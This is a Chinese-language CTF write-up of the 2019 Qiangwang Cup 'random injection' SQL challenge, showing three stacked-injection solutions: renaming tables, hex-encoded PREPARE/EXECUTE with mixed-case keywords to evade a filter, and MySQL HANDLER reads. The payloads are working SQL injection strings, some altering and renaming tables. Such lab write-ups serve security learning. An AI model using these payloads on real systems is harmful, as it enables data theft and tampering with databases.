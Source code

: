 ```yaml
---
title: 强网杯 2019 - 随便注
date: 2024-09-11 21:09:05
permalink: /pages/a7f3bd/
sidebar: false
article: false
author: 
  name: Cola
  link: https://the0n3.top
---
```


参考：

[【BUUCTF[强网杯 2019]随便注 的三种解法】](https://blog.csdn.net/qq_44657899/article/details/103239145)

## 思路一

```sql
?inject=1' or 1='1
?inject=1' union select 1,2
```

使用联合查询，回显`return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);`，显示出过滤的内容

没有过滤分号，可以堆叠注入。显示当前库表

```sql
?inject=1';show tables;
```

有`1919810931114514`,`words`两张表

显示words表的字段

```sql
?inject=1';show columns from words;
```

![1](https://the0n3.top/medias/daily/sql-test/1.png)

当前查询到的信息和words表中字段符合。php里的sql语句查询的是words表，现在不能使用select语句，不考虑盲注的话，**可以利用php当前的sql语句的select查询，需要先把flag所在的表名改为words**

它的sql语句可能是这样

```php
$sql = "select id, data from words";
$result = $conn->query($sql);
if ($result->num_rows > 0) {
    while($row = $result->fetch_assoc()) {
        echo "id: " . $row["id"]. "data: " . $row["data"]. "<br>";
    }
}
```


看看这个数字表里的字段，直接写数字表名查不到信息，需要给数字表名添加上反引号(又学到了)

```sql
?inject=1';show columns from 1919810931114514;
?inject=1';show columns from `1919810931114514`;
```

现在能看到，数字表里只有一个flag，先把words表随便改个名字，再把数字表名改成words

修改表名后，还需要修改和补充字段，现在的words表里没有id字段和data字段，可以插入id字段，修改flag字段的名字

```sql
?inject=1';show tables;rename table words to wow;rename table `1919810931114514` to words;alter table words add id int;alter table words change flag data varchar(100);
```

现在再使用万能密码就可以把flag爆出来了

```sql
?inject=1' or 1='1
```

## 思路二

使用16进制编码查询语句
```sql
select *from `1919810931114514`;
# 编码后，在定义变量赋值时，前面加上0x，不然认不出来
73656c6563742a66726f6d6031393139383130393331313134353134603b
```

又学到了

::: tip
mysql使用set @变量名=值，设置变量  
prepare from预处理语句，会进行解码操作  
execute执行sql语句  
:::

所以可以使用`prepare from`解码一个16进制编码的查询语句，使用execute来执行，这个过程设置把16进制编码设置成变量更方便

题目提示`strstr($inject, "set") && strstr($inject, "prepare")`，set,prepare不能同时小写

```sql
?inject=1';SeT @a=0x73656c6563742a66726f6d6031393139383130393331313134353134603b;prepare execsql from @a;execute execsql;
```

测试了一下，很舒服哈哈，编码的表名需要使用反引号包裹

![sql](https://the0n3.top/medias/daily/sql-test/sql.png)

## 思路三

MySQL 的底层操作，用于直接访问表的行

```sql
?inject=1'; handler `1919810931114514` open as `a`; handler `a` read next;#
```

解释

```sql
-- 打开表
HANDLER `example_table` OPEN AS `a`;

-- 读取第一行
HANDLER `a` READ NEXT;

-- 读取第二行
HANDLER `a` READ NEXT;

-- 继续读取其他行
-- 直到你读取完所有行

-- 关闭表
HANDLER `a` CLOSE;
```

![handler](https://the0n3.top/medias/daily/sql-test/handler.png)